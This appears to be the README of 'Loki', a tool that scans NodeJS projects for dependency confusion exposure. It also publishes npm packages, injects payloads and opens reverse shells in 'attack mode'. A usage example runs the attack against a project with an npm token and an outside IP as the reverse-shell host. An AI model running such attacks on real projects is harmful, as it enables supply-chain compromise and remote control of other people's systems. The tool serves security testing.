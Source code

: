 <div align="center">
    <p> <img src="https://xh4h.com/uploads/loki.png" alt="Discord.jl"/> </p>
</div>

**Loki** helps identifying `NodeJS` projects that are vulnerable to **Dependency Confusion supply chain** attacks.

## Features

* Dependency scanning
* npmjs package publishing
* Configurable reverse shell generation
* Payload injection in vulnerable projects
* Attack mode (PoC after successful payload injection)
* Inspector mode (display hash of commit that introduced the vulnerable package if the directory to scan is a git repository)


## Usage
```
$ loki [options]

Options
--directory   -d   Path to directory to scan
--entrypoint  -e   Path to file to execute if directory is vulnerable (defaults to index.js)
--inspect     -i   Enable inspector mode
--accesstoken -a   Access token for npmjs.com
--attack           Whether to attack the project
--host             Host IP where the reverse shell lister is running (defaults to localhost)
--port             Port where the reverse shell lister is running (defaults to 1456)
```

## Example
```sh
$ loki -d ./my-project -a npm_gf56nF46Js4AcaAs31MadKW3L4k --atack --host 17.1.234.33 --port 2030
```
<div align="center">
    <p> <img src="https://xh4h.com/uploads/DisfiguredMediumorchid_Condor_Nf8VctBu1wAmJWdW.gif"/> </p>
</div>
